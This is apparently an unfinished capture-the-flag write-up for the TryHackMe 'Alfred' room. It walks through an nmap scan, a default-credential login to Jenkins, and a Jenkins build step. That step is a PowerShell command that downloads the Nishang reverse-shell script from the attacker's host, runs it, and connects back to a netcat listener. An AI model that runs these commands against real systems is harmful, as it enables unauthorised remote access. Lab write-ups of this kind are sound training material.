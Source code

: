 ***STILL IN THE WORKS!***


Room: Alfred

Difficulty:

Overview:

------------------------------------------------------------------------------------------------------------------------------------------------------------------

First we need to scan for all open ports using nmap, but since the machine doesn't respond to ping (ICMP) we need to adjust the scan:

nmap  -Pn -A -p- 10.10.101.250 -T4

-Pn   → Because the machine don't respond to ping

-A    → Enable OS detection, version detection, script scanning, and traceroute

-p-   → Scan all ports

-T4   → To speed the scan (this loses some accuracy), otherwise it would take more time to complete.

![Alfred_nmap_scan](https://user-images.githubusercontent.com/76821053/118020693-4ae2cd80-b352-11eb-8f5c-5e8250883d63.png)

The http at port 8080 hosted a jenkins server. We can try default credentials and this one was pretty simple.

![jenkins_8080](https://user-images.githubusercontent.com/76821053/118023732-c8f4a380-b355-11eb-8ea8-ee409d9ddc01.png)

We can created a new project inside Jenkins. At configurations we have a field called Build that let us do commands, so we can use the powershell command given by the room:

**powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port**

In my case i used the below command, where i change the ip and port to match my machine.

**powershell iex (New-Object Net.WebClient).DownloadString('http://10.11.23.202:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.11.23.202 -Port 9001**

To breakdown this command we can tell that the first part of the command will download a file from a specific website or server, in this case from my kali machine and the 
second part of the command tells the windows machine to execute it in order for us to get a reverse shell.

For this command to work and get a reverse shell on our machine we need to setup a few things:

-- Download Nishang "Invoke-PowerShellTcp.ps1" payload script provided by the room. Nishang is a framework and collection of scripts and payloads which enables usage of PowerShell for offensive security.

-- A python SimpleHTTPServer in order to host the file to each the remote machine will try to donwload. We can do this by typing this command on a kali machine:

**python -m SimpleHTTPServer**

![pythonserver](https://user-images.githubusercontent.com/76821053/118032170-3fe26a00-b35f-11eb-919e-8483e5469701.png)

-- Start a netcat listener on the port we chose:

![nclistener](https://user-images.githubusercontent.com/76821053/118028995-9c438a80-b35b-11eb-8463-7b4c797b97d2.png)

After setting all up we just start a new project on jenkins server (in my case i called it admin), add the command to the build tab and just run it:   

![jenkinsproject](https://user-images.githubusercontent.com/76821053/118030688-88992380-b35d-11eb-89a6-74a434f02cb0.png)

We can see that the remote machine downloads the script and run it:

![pythonhttpserver](https://user-images.githubusercontent.com/76821053/118028046-85e8ff00-b35a-11eb-8d9c-32d510ae7b57.png)
